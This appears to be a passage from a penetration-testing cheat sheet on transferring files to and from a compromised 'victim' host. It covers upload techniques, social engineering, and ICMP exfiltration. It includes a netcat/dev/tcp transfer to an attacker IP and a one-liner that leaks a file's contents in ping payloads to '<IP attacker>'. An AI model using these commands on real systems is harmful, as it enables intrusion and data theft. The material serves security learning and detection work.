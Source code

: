 To upload a file to the victim's system, you can use various methods depending on the access and privileges you have gained. Here are a few techniques you can employ:

#### 1. Web-based File Upload

If the victim's system has a web application that allows file uploads, you can leverage this functionality to upload your file. Look for vulnerabilities such as insufficient file type validation, unrestricted file size, or inadequate server-side checks. Exploit these weaknesses to upload your file.

#### 2. Remote File Inclusion (RFI)

If the victim's system includes functionality to include remote files, you can exploit this feature to upload your file. Look for vulnerabilities such as unsanitized user input or insecure file inclusion methods. Craft a payload that points to your file and inject it into the vulnerable parameter.

#### 3. Exploiting File Permissions

If you have gained administrative or root access to the victim's system, you can directly copy your file to a location with write permissions. Identify directories with lax file permissions or misconfigured access controls. Use tools like `cp` or `scp` to copy your file to the desired location.

#### 4. Social Engineering

In some cases, you may be able to trick the victim into downloading and executing your file. Craft a convincing message or disguise your file as something harmless or desirable. Send the file to the victim via email, messaging platforms, or other communication channels. Exploit their curiosity or trust to make them execute the file.

Remember, always exercise caution and ensure you have the necessary permissions and legal authorization before attempting any file upload to a victim's system.
```bash
nc -w5 -lvnp 80 < file_to_send.txt # Inside attacker
# Inside victim
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt
```
**ICMP** stands for Internet Control Message Protocol. It is a network protocol used for sending error messages and operational information between network devices. ICMP is commonly used for diagnostic and troubleshooting purposes in network administration.

In the context of hacking, ICMP can be used for exfiltration, which is the unauthorized transfer of data from a network. Exfiltration through ICMP involves encoding the data into ICMP packets and sending them to a remote server. The server then decodes the packets and retrieves the exfiltrated data.

To perform ICMP exfiltration, an attacker needs to have control over a compromised host within the target network. The attacker can then use various techniques to encode the data into ICMP packets, such as modifying the payload of the packets or using covert channels within the ICMP protocol.

ICMP exfiltration can be difficult to detect, as ICMP traffic is commonly allowed in most network environments. However, network monitoring and intrusion detection systems can be configured to detect unusual patterns or excessive ICMP traffic, which may indicate exfiltration attempts.

It is important for network administrators to implement proper security measures to prevent ICMP exfiltration, such as monitoring and filtering ICMP traffic, implementing intrusion detection systems, and regularly patching and updating network devices to prevent vulnerabilities that could be exploited for exfiltration purposes.
```bash
# To exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probably increase this until 16)
```
